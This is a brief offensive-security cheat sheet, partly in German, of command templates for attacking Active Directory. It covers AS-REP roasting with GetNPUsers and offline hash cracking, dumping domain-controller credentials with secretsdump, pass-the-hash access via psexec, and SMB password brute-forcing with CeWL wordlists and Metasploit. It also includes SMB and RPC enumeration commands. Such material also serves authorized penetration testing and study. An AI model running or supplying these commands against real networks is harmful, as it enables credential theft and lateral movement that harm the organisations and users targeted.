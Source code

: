 #offensive #ad #activedirectory
# Enum AD
`GetNPUsers.py -usersfile <user_list> -dc-ip <dc-ip> <domain>/`

Afterwards crack with john or oclhashcat

# Dumps Cred from DC
`secretsdump.py "<domain>/<user>:<pwd>"@<target-host>`

# Use Hash to access pc
`psexec.py -hashes <hash> <user>@<target-host>`

# Bruteforcing
https://digi.ninja/projects/cewl.php
User + Passwörter auf seite sammeln und dann mit MSFConsole --> scanner/smb/smb_login

# SMB
## Test users
`smbclient -L <server> -U <user>`

## Change password?
`smbpasswd -r <server> -U <user>`

## RPCClient - Info Gathering
`rpcclient -U <domain>\\<user> <client>`
